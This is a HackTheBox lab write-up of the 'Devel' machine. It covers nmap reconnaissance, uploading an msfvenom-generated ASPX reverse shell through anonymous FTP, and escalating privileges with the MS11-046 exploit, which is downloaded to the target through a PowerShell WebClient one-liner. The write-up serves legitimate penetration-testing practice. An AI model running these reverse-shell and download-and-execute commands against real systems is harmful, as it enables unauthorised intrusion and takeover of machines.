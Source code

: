 ```yaml
---
title: HackTheBox - Devel
date: 2021-03-01 14:43:00 +/- 0000
categories: [HackTheBox,Easy]
author: Connor Weeks-Pearson
tags: [devel]
image: assets/img/Icons/Devel/devel.png
---
```


Although it's been a while since my last upload due to getting a new job, i thought it was time to get back on the grind, starting with Devel. This was my second machine rooted without using Metasploit. This machine exploits a Windows web server with anonymous upload privileges via FTP enabled. Once inside, i used "afd.sys" (MS11-046) to esculate priviledges and gain root!

## Summary

- Port scan using NMAP
- Upload MSFVenom generated .apsx shell to web server via FTP
- Elevate privilidges using 'afd.sys' to gain root

---

***Machine IP: 10.10.10.5***

## Reconnaissance
### NMAP

`nmap -n -p- -sV -T 5 10.10.10.5`

![nmap](/assets/img/Icons/Devel/nmap1.png)

FTP is open and so is port 80. Further enumeration:

`nmap -p 80,21 -sC -sV -O 10.10.10.5`

![nmap2](/assets/img/Icons/Devel/nmap2.png)

FTP anonymous login is allowed! Maybe we can exploit this? It also containts an aspnet_client. What is it?

### FTP

Anonymous FTP is enabled. We also have the ability to upload files using PUT.

![ftp1](/assets/img/Icons/Devel/ftp1.png)

These are the files located within the FTP directory.

![ftp2](/assets/img/Icons/Devel/ftp2.png)

### HTTP

![http1](/assets/img/Icons/Devel/http1.png)

It seems the website is hosted in the same root directory as FTP. As the file “iisstart.htm” is reachable.
Maybe we could upload something via FTP and access it via HTTP?

Creating a simple test.html file and upload it via FTP

![http2](/assets/img/Icons/Devel/http2.png)

Then The on the browser navigate to 10.10.10.5/test.html

![http3](/assets/img/Icons/Devel/http3.png)

It works, confirming that files uploaded by FTP and navigated to are executed by the webserver. The webserver is 
Microsoft IIS 7.5

Maybe we can upload a reverse shell via FTP and get the web server to execute it?

#### IIS 7.5

After some googling to find out more about IIS 7.5, i stumbled across this website.

https://stackify.com/iis-web-server/

It highlights that the webserver can do much more than host “ASP.NET apps".

Okay, but what are ASP.NET apps? After some more googling it seems they use the extension .aspx

As per https://fileinfo.com/extension/aspx

An ASPX file is an Active Server Page Extended (ASPX) file, which is a webpage generated by web servers running the Microsoft ASP.NET framework.

Well our webserver is running the ASP.NET framework, and so we could create a payload with the extension .aspx and get the webserver to execute it!

## Exploitation

So now we know that our web server executes .aspx files, we can create a payload using msfvenom with the .aspx extention, and upload it to the root directory.

So first of all, lets check .aspx is a valid format for msfvenom.

`msfvenom --list format | grep aspx`

![aspx1](/assets/img/Icons/Devel/aspx1.png)

Both the aspx and aspx-exe extensions are available, great!

Now lets find a windows reverse shell. We will not use meterpreter as it is not available on the OSCP.

`msfvenom --list payloads | grep windows/shell`


<pre>windows/shell_reverse_tcp                  Connect back to attacker and spawn a command shell</pre>

Perfect!

Now lets create a .aspx payload called rshell.aspx

`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.15 LPORT=4444 -o rshell.aspx`

and then upload it using FTP.

`put rshell.aspx`

Start a netcat listener on port 4444, or any port you like, and get the web server to execute the file. 

![shell](/assets/img/Icons/Devel/shell.png)

Navigating to Users, we can see we have 2 accounts:
- Admin
- babis

However, we do not have access to either.

![shell3](/assets/img/Icons/Devel/shell3.png)

Time for some priviledge esculation.

## Priviledge Esculation
### System information

Lets start by finding out some information about our target machine:

![sysinfo](/assets/img/Icons/Devel/privesc.png)

It looks as though Windows 7 Enterprise version 6.1.7600 is running, and it has not been patched!
Lets have a look for some exploits on google.

https://www.exploit-db.com/exploits/40564

This looks like exactly what we need. Lets have a look at the exploit notes:

![exploit](/assets/img/Icons/Devel/exploit.png)

It seems the exploit will be compiled within our host machine, and then uploaded to the target machine before execution.

### Compiling

First, lets get the file onto our host machine. As the website shows the file is EDB verified, we should be able to find it in searchsploit.

`searchsploit -m 40564`

Rename the file to MS11-046.c using mv, and then run the command given within the exploit. The compiling will fail, due to our host system not having mingw installed. We can install this using:

`sudo apt-get install mingw-w64`

Re-run the command, and it will compile.

![compiled](/assets/img/Icons/Devel/compiled.png)

Great, we now have an executable! Now to get it on the target machine.

### Esculating

The target machine does not have netcat installed, however it does have Windows powershell, so we will use that to connect back to our host machine and download the file.

Start with a Simple python server:

`python -m SimpleHTTPServer 6666`

and then on the remote machine, use powershell to connect back to the host, and download the file.

This website gives a good insight into how to do this using (new-object System.Net.WebClient).DownloadFile

https://blog.ropnop.com/transferring-files-from-kali-to-windows/#http

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:6666/MS11-046.exe' , ‘c:\Users\Public\Downloads\MS11-046.exe’)"`

Navigate to /Users/Public/Downloads

![transferred](/assets/img/Icons/Devel/transferred.png)

We can see the file is there! Execute it!

![root](/assets/img/Icons/Devel/root.png)

We have root!!

## Flags
Here are the flags for this machine!

**User:**
![user](/assets/img/Icons/Devel/user.png)

**Root:**
![Root](/assets/img/Icons/Devel/root2.png)

